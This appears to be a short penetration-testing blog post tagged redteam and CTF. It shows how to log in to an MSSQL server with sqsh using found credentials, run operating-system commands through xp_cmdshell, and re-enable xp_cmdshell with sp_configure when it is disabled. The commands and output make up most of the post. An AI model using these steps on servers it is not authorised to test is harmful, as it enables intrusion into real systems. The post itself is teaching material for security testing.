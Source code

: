 ```yaml
---
layout: post
title:  "Use MSSQL To Execute System Commands"
date:   2020-03-12 01:41:34 +0530
categories: redteam ctf
---
```


##Introduction

When we conducting a penetration test, the end goal of the reconnaissance phase is finding a way to execute a system command. If your system have a 
MSSQL database and you have found credentials to it congratulations you have found a way to execute system command. This blog post talks about 
how to execute system commands using MSSQL.

## Login to MSSQL database
We can use a tool called sqsh to login to the database
```
sqsh -S <IP> -U <USER> -P <PASS>
```

## Execute system commands
xp_cmdshell function can be use to execute system commands,
```
1>xp_cmdshell 'whoami'
2>go
```

## xp_cmdshell is disabled?
If xp_cmdshell function is disabled as a security configuration still there is a way to enable it <b>IF</b> you are an admin user or sa user in MSSQL
```
1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go
```

### Happy Hacking !!!
